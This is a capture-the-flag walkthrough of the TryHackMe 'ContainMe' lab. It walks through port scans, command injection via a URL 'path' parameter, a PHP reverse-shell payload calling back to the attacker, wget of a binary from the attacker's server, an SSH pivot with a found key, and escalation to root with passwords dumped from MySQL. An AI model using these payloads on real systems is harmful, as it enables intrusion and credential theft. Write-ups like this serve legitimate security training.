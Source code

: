 # ContainMe

**Room Link:** [https://tryhackme.com/room/containme1](https://tryhackme.com/room/containme1)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)  (16).png" alt=""><figcaption></figcaption></figure>



### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)   (4).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (7).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Burp Request**

```
GET /index.php?path=;id HTTP/1.1
Host: 10.10.108.33
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Initial Shell

**Kali**

```
nc -lvnp 1337
```

**Burp Request**

```
GET /index.php?path=;php+-r+'$sock%3dfsockopen("$KALI",1337)%3bexec("sh+<%263+>%263+2>%263")%3b' HTTP/1.1
Host: 10.10.128.4
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

<figure><img src="../../.gitbook/assets/image (455).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



**Victim**

```
find / -perm -u=s -type f 2> /dev/null 
/usr/share/man/zh_TW/crypt mike
```

<figure><img src="../../.gitbook/assets/image (456).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (457).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
git clone https://github.com/andrew-d/static-binaries.git
cd static-binaries/binaries/linux/x86_64
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
wget http://$KALI:81/nmap
chmod +x nmap
./nmap 172.16.20.0/24 -Pn
```

<figure><img src="../../.gitbook/assets/image (458).png" alt=""><figcaption></figcaption></figure>

Mike has a ssh key so I tried logging into the other server with that and it worked.

**Victim**

```
ssh mike@172.16.20.6 -i /home/mike/.ssh/id_rsa
```

<figure><img src="../../.gitbook/assets/image (459).png" alt=""><figcaption></figcaption></figure>

## **Privilege Escalation**&#x20;

**Victim**

```
ss -ltp 
```

<figure><img src="../../.gitbook/assets/image (461).png" alt=""><figcaption></figcaption></figure>

Password was password, just guessed it.

**Victim(mysql)**

```
mysql -ppassword 
show databases; 
use accounts;  
select * from users ;
```



<figure><img src="../../.gitbook/assets/image (460).png" alt=""><figcaption></figcaption></figure>

**Victim**

<pre><code><strong>su root
</strong>Password: bjsig4868fgjjeog
</code></pre>

<figure><img src="../../.gitbook/assets/image (462).png" alt=""><figcaption></figcaption></figure>

**Victim**

<pre><code><strong>cd /root
</strong><strong>unzip mike.zip
</strong><strong>Password: WhatAreYouDoingHere
</strong></code></pre>
